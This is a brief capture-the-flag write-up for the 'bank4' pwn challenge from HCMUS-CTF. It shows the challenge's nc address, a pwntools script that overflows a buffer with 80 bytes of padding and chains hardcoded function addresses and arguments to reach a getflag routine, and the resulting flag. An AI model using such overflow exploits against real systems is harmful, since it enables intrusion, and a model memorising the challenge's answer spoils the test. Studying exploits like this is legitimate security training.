 ## bank4 (200 points)

#### Solved by nhanlun

```
nc 61.28.237.24 30205

author: xikhud
```

```py
from pwn import *

up1 = 0x080488a5
up2 = 0x080488db
register = 0x0804895b
getflag = 0x08048906

conn = remote("61.28.237.24", 30205)
conn.sendlineafter("name:", b'A' * 80 + p32(up2) + p32(register) + p32(1) + p32(1) + p32(0x12345678))
conn.sendlineafter("name:", b'A' * 80 + p32(up1) + p32(getflag) + p32(4919) + p32(57005))
conn.interactive()
```

**Flag:** `HCMUS-CTF{trungdeptrai}`
